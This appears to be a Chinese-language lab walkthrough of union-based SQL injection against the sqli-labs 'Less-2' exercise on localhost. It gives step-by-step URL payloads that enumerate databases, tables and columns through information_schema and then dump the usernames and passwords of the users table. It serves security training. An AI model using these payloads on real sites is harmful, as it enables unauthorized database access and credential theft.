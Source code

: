 首先判断此SQL语句所查询的数据有几列（或者使用order by二分法）<br />http://127.0.0.1:8081/Less-2/?id=4 union select 1,2,3 %23<br />![截屏2021-06-08 下午5.19.53.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623144018746-c60e56ca-2153-4258-bf07-69514255b673.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=hEVSR&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-08%20%E4%B8%8B%E5%8D%885.19.53.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=943778&status=done&style=none&title=&width=2604)<br />判断页面输出的是所查询的哪一个数据（判断位置）<br />http://127.0.0.1:8081/Less-2/?id=99999 union select 1,user(),3 %23<br />![截屏2021-06-08 下午5.21.33.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623144112212-251d7e84-00e4-4cd4-ab08-b9cdb79a7bc9.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=V3jG2&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-08%20%E4%B8%8B%E5%8D%885.21.33.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=948626&status=done&style=none&title=&width=2604)<br />查询数据库<br />http://127.0.0.1:8081/Less-2/?id=99999 union select 1,user(),schema_name from information_schema.schemata %23<br />![截屏2021-06-08 下午5.25.38.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623144360178-c6088b48-b4f9-4244-bdbb-baac1bc6d064.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=ywtBf&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-08%20%E4%B8%8B%E5%8D%885.25.38.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=969857&status=done&style=none&title=&width=2604)<br />页面只输出一个数据库，若要全部输出，则用group_concat()函数<br />http://127.0.0.1:8081/Less-2/?id=99999 union select 1,user(),group_concat(schema_name) from information_schema.schemata %23<br />![截屏2021-06-08 下午5.28.00.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623144501163-de4bb2a8-6d40-45ff-ab55-3680b52db3b3.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=wlYz8&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-08%20%E4%B8%8B%E5%8D%885.28.00.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=986064&status=done&style=none&title=&width=2604)<br />查询当前数据库名<br />http://127.0.0.1:8081/Less-2/?id=99999 union select 1,database(),group_concat(schema_name) from information_schema.schemata %23<br />![截屏2021-06-08 下午5.30.15.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623144636510-29e3fe63-da0e-429f-844d-a2ebe2d8814a.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=sn9wV&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-08%20%E4%B8%8B%E5%8D%885.30.15.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=985677&status=done&style=none&title=&width=2604)<br />查询当前数据库下的所有表名<br />http://127.0.0.1:8081/Less-2/?id=99999 union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database() %23<br />![截屏2021-06-08 下午5.33.59.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623144850589-04414fed-b9de-4ce4-b0bf-3d325d039650.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=PPELq&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-08%20%E4%B8%8B%E5%8D%885.33.59.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=976361&status=done&style=none&title=&width=2604)<br />查询users表下的字段名<br />http://127.0.0.1:8081/Less-2/?id=99999 union select 1,database(),group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' %23<br />![截屏2021-06-08 下午5.37.08.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623145039834-7743dbdb-44c1-44fc-803a-398a0b1c29a0.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=BOXoM&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-08%20%E4%B8%8B%E5%8D%885.37.08.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=984305&status=done&style=none&title=&width=2604)<br />查询username和password<br />http://127.0.0.1:8081/Less-2/?id=99999 union select 1,group_concat(username),group_concat(password) from security.users %23<br />![截屏2021-06-08 下午5.40.18.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623145230171-fcca620a-5358-4912-b0b5-e8fd545d161b.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=mHvG7&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-08%20%E4%B8%8B%E5%8D%885.40.18.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=923763&status=done&style=none&title=&width=2604)<br />或者<br />http://127.0.0.1:8081/Less-2/?id=99999 union select 1,group_concat(concat_ws(':',username,password)),3 from security.users %23<br />![截屏2021-06-08 下午5.44.12.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623145467593-1f9c56c9-2407-405f-b59f-74d8af29c466.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=mswHR&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-08%20%E4%B8%8B%E5%8D%885.44.12.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=1011728&status=done&style=none&title=&width=2604)
## POST注入